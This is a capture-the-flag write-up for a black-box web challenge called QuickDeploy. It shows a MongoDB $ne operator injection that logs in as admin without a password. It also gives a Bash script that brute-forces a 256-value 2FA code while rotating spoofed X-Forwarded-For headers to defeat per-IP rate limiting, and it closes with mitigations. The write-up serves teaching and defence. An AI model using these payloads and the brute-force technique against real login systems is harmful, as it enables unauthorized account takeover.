






# QuickDeploy — Full Writeup

- **Challenge Author:** N1gh7R4v3n   
- **Category:** Web (NoSQL Injection / Rate Limit Bypass)
- **Difficulty:** Easy–Medium
- **Flag:** `Spark{r4t3_l1m1t_5p00f1ng_m4st3r}`

---

## 1. Challenge Overview

**QuickDeploy** is a web challenge that presents itself as a "Deploy Faster, Scale Smarter" platform — a Coolify-inspired deployment dashboard. The application allows users to register, log in, and access a user dashboard. However, an **admin panel** protected by **2FA verification** holds the flag.

### Challenge Files

The player is not provided with source code — this is a **black-box** web challenge.

| Route | Description |
|-------|-------------|
| `/` | Landing page |
| `/login` | Login form |
| `/register` | Registration form |
| `/dashboard` | User dashboard (after normal login) |
| `/2fa` | OTP verification page |
| `/admin` | Admin panel (requires 2FA, contains flag) |

### Attack Chain Summary

The exploit consists of two vulnerabilities chained together:

1. **NoSQL Injection** in the `/login` endpoint — bypass authentication as `admin`
2. **IP Rate Limit Bypass** via `X-Forwarded-For` header spoofing — brute-force the 2FA OTP (256 possibilities, 10 attempts/IP)

---

## 2. Reconnaissance & Enumeration

### Landing Page

Upon visiting `http://<target>:3333/`, we see a modern-looking landing page with a glowing "QuickDeploy" title, feature cards (Instant Deploy, Real-time Monitoring, Secure by Default, etc.), and testimonial quotes from fake users. Two buttons stand out: **Login** and **Register**.



### Login Page

Clicking **Login** takes us to `/login`:



Inspecting the HTML source reveals a critical clue in the client-side JavaScript:

```html
<script>
document.getElementById('loginForm').addEventListener('submit', async (e) => {
  e.preventDefault();
  const username = e.target.username.value;
  const passwordInput = e.target.password.value;

  let password;
  try {
    password = JSON.parse(passwordInput);
  } catch {
    password = passwordInput;
  }

  const data = { username, password };
  const res = await fetch('/login', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify(data)
  });
  // ...
});
</script>
```

The key observation: the password field is **parsed as JSON** before being sent. If `JSON.parse()` succeeds, the parsed JSON object is sent as the `password` value in the request body. This means we can send MongoDB operators like `{"$ne": ""}` (not equal) as the password — a classic NoSQL injection vector.

### Register Page


The register form allows creating a new account. Registration works normally with basic validation.

### Dashboard (Normal User)

After registering and logging in as a regular user, we reach the `/dashboard`:



The dashboard shows deployment statistics and a list of recent deployments. It's a **dead end** for the flag — the flag is only accessible from the `/admin` route, which requires both admin privileges and 2FA.

---

## 3. Vulnerability Analysis (Client-Side Perspective)

This section analyzes the vulnerabilities purely from what is observable in the browser — no server-side source code is needed.

### Vulnerability 1: NoSQL Injection in Login

**Observable Clue**: The login page's HTML source reveals that the password field undergoes `JSON.parse()` on the client side before being sent to the server:

```html
<script>
let password;
try {
  password = JSON.parse(passwordInput);  // <-- tries to parse as JSON
} catch {
  password = passwordInput;               // <-- falls back to raw string
}
const data = { username, password };
await fetch('/login', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify(data)
});
</script>
```

**Why This Matters**: When we send a JSON object like `{"$ne":""}` as the password, the `Content-Type: application/json` ensures the server parses the entire request body as JSON. If the backend passes this object directly into a MongoDB query (a common pattern with Mongoose/Express), the `$ne` operator becomes a NoSQL condition: *"find user where password is not equal to empty string"*.

This is a classic signal for NoSQL injection — the client-side JSON parsing is effectively telling us the server will interpret MongoDB operators if we send them.

**Behavioral Confirmation**: Sending `{"username":"admin","password":{"$ne":""}}` as JSON to `POST /login` returns:

```
Found. Redirecting to /2fa
```

This confirms:
- The server accepted the MongoDB operator and matched a user named `admin`
- The admin user has 2FA enabled (redirect to `/2fa`)
- The password was never checked — we bypassed authentication entirely

The application also leaks a hint in its container name: `nosqlock` — a portmanteau of **NoSQL** and **lock**.

### Vulnerability 2: Rate Limit via Client-Controlled IP

**Location**: `POST /2fa`

**Behavioral Observation**: When brute-forcing the OTP using a single source IP, the server blocks after exactly **10 attempts**:

```
🚫 Too many attempts from this IP. Try a different one.
```

**Testing the Bypass**: Adding a spoofed `X-Forwarded-For` header resets the counter completely:

```bash
curl -X POST "http://<target>:3333/2fa" \
  -H "X-Forwarded-For: 10.0.0.99" \  # <-- arbitrary IP
  -d '{"otp":"0000"}'
```

This reveals two flaws:
1. The rate limiter trusts the `X-Forwarded-For` header as the identity key
2. There is no validation that this header comes from a trusted proxy

**OTP Space Discovery**: By observing the redirect from `/login` to `/2fa`, we can infer a small OTP space. Trying a few guesses reveals OTP values like `0000` through `0255` are valid — only **256 possibilities**, which is suspiciously close to `Math.random() * 256`.

---

## 4. Exploit Development

### Step 1: NoSQL Injection — Login as Admin

We send a POST request to `/login` with the `password` field as a MongoDB operator:

```bash
curl -c cookies.txt -X POST "http://<target>:3333/login" \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$ne":""}}'
```

**Response**:
```
Found. Redirecting to /2fa
```

The server accepts the injection, matches the admin user, generates a random OTP (0–255), stores it in the session, and redirects to `/2fa`.



### Step 2: Brute-force OTP with IP Rotation

Now we need to guess the 4-digit OTP (0000–0255). With only 10 attempts allowed per IP, we rotate the `X-Forwarded-For` header for each attempt.

**Brute-force script** (Bash):

```bash
#!/bin/bash
TARGET="localhost:3333"
COOKIE_FILE="cookies.txt"

for otp in $(seq -w 0 255); do
  ip="10.0.0.$((otp % 60 + 1))"
  resp=$(curl -s -b "$COOKIE_FILE" -X POST "http://$TARGET/2fa" \
    -H "Content-Type: application/json" \
    -H "X-Forwarded-For: $ip" \
    -d "{\"otp\":\"$otp\"}")

  if echo "$resp" | grep -q "VERIFIED"; then
    echo "FOUND OTP: $otp"
    echo "$resp"
    break
  fi
done
```

**Exploit output**:
```
[+] Step 1: NoSQL Injection Login
    Username: admin
    Password: {"$ne":""}
    Result: Found. Redirecting to /2fa

[+] Step 2: Brute-forcing 2FA OTP (0000-0255)
    Range: 0000 - 0255
    Rate Limit: 10 attempts/IP
    Bypass: X-Forwarded-For rotation

    Testing OTP: 0000 (IP: 10.0.0.1) ...
    Testing OTP: 0010 (IP: 10.0.0.11) ...
    Testing OTP: 0020 (IP: 10.0.0.21) ...
    ...

[+] SUCCESS! OTP: 0146

╔════════════════════════════════════════════════════════════════╗
║                    2FA VERIFICATION SUCCESS                    ║
╠════════════════════════════════════════════════════════════════╣
║  Status: VERIFIED                                               ║
║  User: admin                                                    ║
║  Access: GRANTED                                                ║
╠════════════════════════════════════════════════════════════════╣
║                    FLAG: Spark{r4t3_l1m1t_5p00f1ng_m4st3r}                  ║
╠════════════════════════════════════════════════════════════════╣
║  Congratulations! You have successfully bypassed 2FA!           ║
╚════════════════════════════════════════════════════════════════╝
```

### Step 3: Access Admin Panel

Once the OTP is verified, the session cookie now has `2fa_verified: true`. Navigating to `/admin` reveals the flag in a terminal-style display:



---

## 7. Mitigation Recommendations

| Issue                              | Vulnerability                                 | Mitigation                                                                                                                               |
| ---------------------------------- | --------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| **NoSQL Injection**                | `password` passed directly into MongoDB query | Validate that `password` is a string before querying. Use `mongoose` schema type enforcement. Never pass user input as MongoDB operators |
| **Weak OTP Space**                 | OTP is 0–255 (256 values)                     | Use a full 6-digit OTP (1,000,000 values) with proper entropy                                                                            |
| **Client-controlled Rate Limit**   | `X-Forwarded-For` trusted for rate limiting   | Use `req.socket.remoteAddress` only, or validate `X-Forwarded-For` against trusted proxies                                               |
| **Missing Brute-force Protection** | No exponential backoff or account lockout     | Implement account-level lockout after N failed attempts                                                                                  |
| **Plaintext Admin Password**       | Seed password visible in source               | Use environment variables and bcrypt for admin credentials                                                                               |

---

## 8. Lessons Learned
### Vulnerability Classes

- **CWE-943**: Improper Neutralization of Special Elements in Data Query Logic (NoSQL Injection)
- **CWE-307**: Improper Restriction of Excessive Authentication Attempts
- **CWE-807**: Reliance on Untrusted Inputs in a Security Decision

---

## 9. References

- [MongoDB Query Operators](https://www.mongodb.com/docs/manual/reference/operator/query/)
- [PortSwigger: NoSQL injection](https://portswigger.net/web-security/nosql-injection)
- [OWASP: NoSQL Injection](https://owasp.org/www-community/attacks/NoSQL_Injection)
- [Express.js: express-session](https://www.npmjs.com/package/express-session)
- [HTTP X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For)

---

### Challenge Author

- **Author**: [N1gh7R4v3n]
- [LinkedIn](https://www.linkedin.com/in/n1gh7r4v3n/)
